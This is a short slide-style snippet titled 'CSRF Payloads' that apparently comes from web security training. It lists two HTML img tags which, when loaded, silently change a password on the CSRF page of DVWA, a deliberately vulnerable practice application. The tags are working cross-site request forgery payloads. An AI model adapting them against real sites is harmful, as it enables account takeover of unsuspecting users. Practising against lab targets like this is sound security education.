

# CSRF Payloads
<img src="http://localhost//DVWA/vulnerabilities/csrf/?password_new=password1&amp;password_conf=password1&amp;Change=Change">

<img src="/DVWA/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change">